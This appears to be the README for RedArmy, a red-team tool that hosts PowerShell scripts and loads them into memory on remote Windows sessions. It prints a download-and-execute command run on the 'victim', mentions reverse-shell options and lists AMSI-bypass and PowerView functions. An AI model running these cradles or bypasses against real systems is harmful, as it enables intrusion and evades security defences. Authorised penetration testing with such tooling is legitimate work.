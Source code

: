 # RedArmy

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ ./scripts/update
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP(S) server to host the RedArmy scripts.

Options:
    --cert=PEM           Use the specified cert PEM file for TLS,
                         implies --tls, requires --key
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --key=PEM            Use the specified key PEM file for TLS,
                         implies --tls, requires --cert
    -n, --ngrok          Use ngrok for TLS (ensure ssh is
                         pre-configured)
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080 for
                         HTTP, 8443 for TLS)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    --skip-validation    Disable TLS certificate validation (for use
                         with self-signed certs)
    --tls                Use TLS
    -u, --update         Update git submodules before starting server
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex ((New-Object System.Net.WebClient).DownloadString("http://<ip>:<port>/invade.html"))
```

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
